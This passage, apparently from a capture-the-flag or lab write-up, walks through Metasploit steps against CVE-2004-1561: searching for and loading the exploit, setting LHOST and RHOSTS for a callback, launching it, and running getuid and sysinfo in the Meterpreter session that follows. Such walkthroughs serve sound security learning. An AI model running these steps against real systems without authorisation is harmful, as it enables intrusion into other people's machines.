 Next, I searched for the CVE within Metasploit:

\`\`\`bash
$ search cve:2004-1561
\`\`\`

This listed the available exploits for this vulnerability.

---

### 9️⃣ Selecting the Exploit

The search results showed the exploit at index \`0\`. I loaded it with:

\`\`\`bash
$ use 0
\`\`\`

---

### 🔟 Setting Target Parameters

After loading the exploit, I checked the required options:

- \`LHOST\`: Local host interface to receive the callback  
- \`RHOST\`: Target IP address  

I set them accordingly:

\`\`\`bash
lhost = tun0
rhosts = ip of the target
\`\`\`

---

### 1️⃣1️⃣ Launching the Attack

With all configurations in place, I started the exploit:

\`\`\`bash
$ exploit
\`\`\`

The attack was launched, and I gained access to the target system via Meterpreter.

---

### 1️⃣2️⃣ Gathering Initial Recon

After gaining shell access, I ran the following commands to gather user information and system details:

\`\`\`bash
$getuid
$sysinfo
\`\`\`
